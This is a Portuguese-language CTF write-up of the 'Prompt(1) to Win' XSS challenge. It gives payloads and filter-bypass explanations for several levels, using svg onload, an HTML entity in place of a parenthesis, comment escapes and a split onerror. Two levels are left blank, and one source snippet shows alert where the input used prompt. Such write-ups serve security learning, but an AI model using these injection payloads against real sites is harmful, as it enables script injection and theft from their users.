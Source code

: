 # Prompt(1) to Win
###### Solved by @joaoselim
>This CTF is about XSS, JavaScript, Injeção de Código
## About the challenge
Nesse desafio de XSS(Cross-Site Scripting) temos o objetivo de realizar diversas injeções de código JavaScript, para chamar prompt(1) através de 15 níveis diferentes

## Solutions
#### Desafio 0:

[![questao0.png](https://i.postimg.cc/W4g2WgjP/questao0.png)](https://postimg.cc/kVM3DVBj)

Input:
```
"><script>prompt(1)</script>
```
Nesse primeiro caso temos um código simples, sem filtragem, oque devemos nos atentar é em sair do atributo `value="` usando `"`, e encerrar a tag `input` usando `/>`. A partir daí
inserimos nosso script `<script>prompt(1)</script>`

HTML Source:
```
<input type="text" value=""><script>alert(1)</script>">
```

#### Desafio 1:

[![questao1.png](https://i.postimg.cc/cL9SFhPj/questao1.png)](https://postimg.cc/jD7m5HxQ)

Input:
```
<svg/ onload=prompt(1) 
```
Seguido de uma quebra de linha ou espaço.

Agora começamos a ter que contornar tipos de filtragem. Nessa questão a regex `/<\/?[^>]+>/gi` faz com que ao inserirmos qualquer informação em uma tag HTML encerrada por `>` será 
substituido no código por `''`, para isso, abrimos o construtor `<` e fornecemos um tipo de imagem svg, e usamos uma `/` para que ocorra uma quebra no formato da tag, em seguida afirmamos para o código 
usando o `onload` que ao carregar a imagem deve chamar `prompt(1)`

HTML Source:
```
<article><svg/ onload=prompt(1)
</article>
```

#### Desafio 2:

[![questao2.png](https://i.postimg.cc/13hHLVNK/questao2.png)](https://postimg.cc/zV7KhB7L)

Input:
```
<svg><script>prompt&#40;1)</script>
```
Ainda lidando com filtragem, agora não podemos usar nem `=` nem `(`, ent para isso tem se conhecimento que todas as teclas de um teclado tem um código correspondente, no caso do `(` é `&#40`. Iniciamos nosso input abrindo a tag `<svg>`, concluimos colocando um script dentro dela `<script></script>` e chamando o prompt(1) dentro da tag script

HTML Source:
```
<svg><script>prompt&#40;1)</script>
```

#### Desafio 3:

[![questao3.png](https://i.postimg.cc/yx6bwggd/questao3.png)](https://postimg.cc/9RSb9fB5)

Input:
```
--!><svg onload=prompt(1)
```
Nessa questão nosso input está sendo colocado dentro de `<!--...-->`, então tudo que escrevemos é visto pelo código como comentário, então precisamos encerrar a sessão de comentarios.
Para isso é possível usar de 2 formas, `-->` e `--!>`, mas como temos a filtragem de `->` então temos de usar a segunda opção. 
Então seguimos nosso input com um tipo `svg` em que ao ser carregado chama o `prompt(1)`

HTML Source:
```
<!-- --!><svg onload=prompt(1) -->
```

#### Desafio 4:

[![questao4.png](https://i.postimg.cc/nz5tYGwx/questao4.png)](https://postimg.cc/mzQqTCsp)

Input:
```

```
resolução

HTML Source:
```

```

#### Desafio 5:

[![questao5.png](https://i.postimg.cc/R0kkWZ3C/questao5.png)](https://postimg.cc/GBj7NrJ6)

Input:
```
"type=image src onerror
="prompt(1)
```
Primeiro fechamos as aspas do `value="`, assim oque escrevermos não vai mais ser registrado como valor. Em seguida fornecemos ao código uma imagem falsa, assim o nosso src vai dar como erro. Mas pra conseguirmos burlar o filtro, temos de colocar o `onerror` em uma linha e o `=` em outra.

HTML Source:
```
<input value=""type=image src onerror
="prompt(1)" type="text">
```

#### Desafio 6:

[![questao6.png](https://i.postimg.cc/KvV2CMBj/questao6.png)](https://postimg.cc/svpqh1nC)

Input:
```

```
resolução

HTML Source:
```

```

